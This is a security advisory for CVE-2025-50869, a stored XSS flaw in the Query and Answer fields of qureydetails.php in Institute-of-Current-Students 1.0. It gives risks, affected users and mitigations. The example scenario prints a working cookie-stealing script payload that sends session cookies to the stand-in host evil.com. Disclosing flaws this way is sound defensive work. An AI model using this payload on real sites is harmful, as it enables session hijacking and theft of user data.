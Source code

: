 # Critical Security Alert: Stored XSS Vulnerability in Institute-of-Current-Students 1.0 (CVE-2025-50869)

## Introduction
A newly discovered vulnerability in **Institute-of-Current-Students version 1.0** poses a significant risk to organizations using this software. This flaw, a type of **Cross-Site Scripting (XSS)**, could allow attackers to compromise user accounts, steal sensitive data, or even take control of the affected system. For business leaders, this translates directly to potential data breaches, reputational damage, and financial loss. It is crucial to understand this risk and take immediate action.

## Vulnerability Details
*   **CVE ID:** **CVE-2025-50869**
*   **Affected Software:** Institute-of-Current-Students
*   **Affected Version:** 1.0
*   **Vulnerability Type:** Stored Cross-Site Scripting (XSS)
*   **Technical Cause:** The vulnerability resides in the `qureydetails.php` page. Specifically, the input fields for "Query" and "Answer" do not properly sanitize (clean) user-supplied data. This means that an authenticated attacker can inject malicious code, such as JavaScript, into these fields. This malicious code is then permanently stored on the server.
*   **Example Scenario:** An authenticated malicious user could enter a payload like `<script>alert('Malicious Code Executed');</script>` or `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>` into the "Query" or "Answer" fields. When this content is subsequently viewed by other users (including administrators), the embedded JavaScript executes in their web browsers.

## Risk Description
If exploited, this **Stored XSS** vulnerability could allow an attacker to:
*   **Hijack User Sessions:** Steal session cookies, enabling them to impersonate legitimate users, including administrators, and gain unauthorized access to accounts.
*   **Deface Websites:** Alter the content or appearance of web pages to display malicious or misleading information.
*   **Steal Sensitive Data:** Access and exfiltrate information displayed on the page or accessible through the user's browser, such as personal data, financial details, or confidential records.
*   **Redirect Users:** Force users to malicious websites, potentially leading to phishing attacks or malware downloads.
*   **Launch Further Attacks:** Utilize the compromised user's browser as a platform for more sophisticated attacks against internal networks or other systems.

## Who is at Risk
Any organization or individual currently using **Institute-of-Current-Students version 1.0** is at critical risk. This primarily includes educational institutions or similar entities that rely on this specific software for managing student queries or related interactions.

## Recommendations
**For Developers (of Institute-of-Current-Students):**
*   **Implement Robust Input Validation:** Ensure all user-supplied data, especially for the "Query" and "Answer" fields in `qureydetails.php`, is strictly validated against expected data types and formats.
*   **Apply Output Encoding:** Before displaying any user-generated content, ensure it is properly encoded (e.g., HTML entity encoding) to neutralize any embedded scripts.
*   **Adopt a Secure Development Lifecycle:** Integrate security practices throughout the entire software development process, including regular security testing.

**For Website Owners and IT Administrators (using Institute-of-Current-Students 1.0):**
*   **Seek an Immediate Patch:** Contact the software vendor or check their official channels for an urgent security update or patch addressing **CVE-2025-50869**. Apply any available updates immediately.
*   **Temporary Mitigation (if no patch available):**
    *   Restrict access to the `qureydetails.php` page or the "Query" and "Answer" functionalities to only trusted administrative users.
    *   Implement a Web Application Firewall (WAF) to detect and block XSS attempts.
    *   Review and sanitize existing data in the "Query" and "Answer" fields to remove any potentially malicious stored content.
*   **Monitor Logs:** Increase monitoring of application and web server logs for suspicious activity related to `qureydetails.php` or unusual user behavior.
*   **Educate Users:** Remind users about the risks of clicking suspicious links and the importance of strong, unique passwords.

## Reference Link
For more technical details, please refer to the following advisory:
[https://gist.github.com/b0mk35h/1fabbff8c95c6b7180c4ef40a337b8b](https://gist.github.com/b0mk35h/1fabbff8c95c6b7180c4ef40a337b8b)